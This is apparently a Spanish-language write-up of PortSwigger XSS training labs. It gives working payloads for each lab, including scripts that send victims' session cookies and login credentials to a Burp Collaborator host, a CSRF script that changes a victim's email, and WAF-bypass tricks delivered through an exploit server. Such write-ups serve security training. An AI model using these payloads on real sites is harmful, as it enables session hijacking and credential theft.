# Cross-site scripting - PortSwigger

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en el siguiente link.

[https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)

## Índice


## 1. Lab: Reflected XSS into HTML context with nothing encoded

```
Este laboratorio contiene una vulnerabilidad XSS reflejada simple en la función de búsqueda.

Para resolver el laboratorio, realice un ataque XSS que llame a la función alert.
```

Payload

```
https://acc21f861f22e8c880220b6c0070003c.web-security-academy.net/?search=<script>alert(1)</script>
```



## 2. Lab: Exploiting cross-site scripting to steal cookies

```
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.
```

Para este laboratorio vamos a ingresar a un post y realizar un comentario mientras interceptamos todos los paquetes en segundo plano mediante la herramienta de burpsuite. Luego lo enviamos al repeater y preparamos nuestro payload.

```
<script>document.location='http://lti3h8huag0tmmzul0n2ujpz0q6gu5.burpcollaborator.net/?'+document.cookie</script>
```

Entonces lo enviamos en el repeater, y esperamos la respuesta en el burp collaborator.



Entonces, la cookie robada es la siguiente:

```
secret=avJbuCyJJiBnI7NFZJ4sbbdOXdKAb4Py; session=4TWOZsQYlS5PASECvxhQPUONxdZ5qi6l
```

Entonces ingresamos al home del laboratorio, interceptamos el paquete y cambiamos la cookie para completar el laboratorio.



## 3. Lab: Exploiting cross-site scripting to capture passwords

```
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.
```

Entonces primero iremos a la seccion de login para recoger las dos etiquetas input de usuario y contraseña.

```
<input required="" type="username" name="username">
<input required="" type="password" name="password">
```

Y para obtener el valor dentro de estos input podemos usar el payload:

```
document.getElementsByName("username")[0].value
document.getElementsByName("password")[0].value
```

Entonces, creamos nuestro payload.

```html
<input required="" type="username" name="username"><input required="" type="password" name="password"><script>document.location='http://9s2dl5quximg9tsq7m5m5gvfj6pwdl.burpcollaborator.net/?'+document.getElementsByName("username")[0].value+'&'+document.getElementsByName("password")[0].value</script>
```

Entonces, iniciamos el modo **Intercept ON** del burpsuite, y cambiamos el valor del mensaje por el payload, encodeado con URL encode.



Podemos ver que envia el paquete



Pero lo envia sin informacion, esto puede ocurrir porque a la hora de realizar el document.location todavia no se realizó el autocompletado, por ello haremos uso del atributo **onchange**. 

```html
<input required="" type="username" name="username"><input required="" type="password" name="password" onchange="document.location='http://9s2dl5quximg9tsq7m5m5gvfj6pwdl.burpcollaborator.net/?'+document.getElementsByName('username')[0].value+'&'+document.getElementsByName('password')[0].value">
```



Entonces, verificamos el **burp collaborator** y obtenemos las credenciales.



```
administrator:ef6gbovly0a77qvxul8i
```

Entonces, nos logeamos con las credenciales y completamos el laboratorio.


## 4. Lab: Exploiting XSS to perform CSRF

```
This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a CSRF attack and change the email address of someone who views the blog post comments.
```

Antes de todo necesitamos entender como funciona el cambio de contraaeña, así que cambiaremos la contraseña de nuestra cuenta **wiener** para conocer los parametros y la ruta a donde se debe enviar.

```
POST /email/change-email HTTP/1.1
Host: ac411fe71f8b856f80352cd100b300fe.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: https://ac411fe71f8b856f80352cd100b300fe.web-security-academy.net
DNT: 1
Connection: close
Referer: https://ac411fe71f8b856f80352cd100b300fe.web-security-academy.net/email
Cookie: session=aFgfuzayL8jK1xA5jr3j6Z1fQvH6Kbsv
Upgrade-Insecure-Requests: 1

email=a%40a.a&csrf=6f8A1jOKIzioIeAGRZayu2KCRH2q0mTf
```

Entonces, realizaremos un payload XSS con los parametros del paquete anterior:

```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/email',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/email/change-email', true);
    changeReq.send('csrf='+token+'&email=a@a.a')
};
</script>
```

Entonces lo enviamos por comentario y terminamos el laboratorio.



## 5. Lab: Stored XSS into HTML context with nothing encoded

```
This lab contains a stored cross-site scripting vulnerability in the comment functionality.

To solve this lab, submit a comment that calls the alert function when the blog post is viewed
```

Payload

```html
<script>alert(1)</script>
```





## 6. Lab: Reflected XSS into HTML context with most tags and attributes blocked

```
This lab contains a reflected cross-site scripting vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors.

To solve the lab, perform a cross-site scripting attack that bypasses the WAF and alerts document.cookie.
```

Al ejecutar el payload común obtenemos la siguiente respuesta.



Entonces lo que haremos será enviar la consulta GET del search al intruder, y luego en la **Cross-site scripting (XSS) cheat sheet**, https://portswigger.net/web-security/cross-site-scripting/cheat-sheet , clic en **copy tags to clipboard**.



Luego en el intruder realizamos la siguiente configuracion:




Luego verificamos que el **payload** que nos dió codigo 200 fue **body**



Ahora realizamos lo mismo pero con los eventos.







Luego verificamos que el **payload** que nos dió codigo 200 fue **onresize**



Entonces el payload final sería el siguiente:

```
<body onresize=alert(1)>
```

Ahora podemos probar el payload en la pagina, y luego cambiamos de tamaño  a la ventana y vemos que nos genera el alert.


Ahora hacemos clic en **Go to exploit server** y diseñamos un iframe para que realice el **resize** por nosotros.

```
<iframe src="https://ac2f1fe11f9e36b080425a7400750067.web-security-academy.net/?search=%3Cbody%20onresize=alert(document.cookie)%3E" onload=this.style.width='100px'>
```

Entonces le damos en **Store** y luego en **Deliver exploit to victim**.



Y luego de ello vamos al home del laboratorio para ver que lo completamos.



## 7. Lab: Reflected XSS into HTML context with all tags blocked except custom ones

```
This lab blocks all HTML tags except custom ones.

To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts document.cookie.
```

Entonces buscamos un payload custom, y obtenemos el siguiente:

```
<xss id=x tabindex=1 onfocus=alert(1)>
```

Pero si lo colocamos en el navegador, este no genera ningun mensaje de alert, así que lo lo que haremos será llamar a la etiqueta que escribimos, y esto podemos hacer haciendo referencia al id de la etiqueta el cual es **x**, entonces en la url al final agregamos los caracteres **#x** para hacer el llamado a la etiqueta con id **x**, que justamente es nuestor payload.

 ```
<xss id=x tabindex=1 onfocus=alert(1)>#x
 ```



Entonces ahora vamos a el **exploit server** y escribimos el siguiente payload.

```html
<script>
    document.location='https://ace51ff81f542d2f800b9fba009400af.web-security-academy.net/?search=<xss id=x tabindex=1 onfocus=alert(document.cookie)>#x';
</script>
```

Entonces Guardamos y enviamos a la victima.



Entonces vamos al home del laboratorio para verificar que lo completamos.



## 8. Lab: Reflected XSS with event handlers and href attributes blocked

```
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```



## 9. Lab: Reflected XSS with some SVG markup allowed


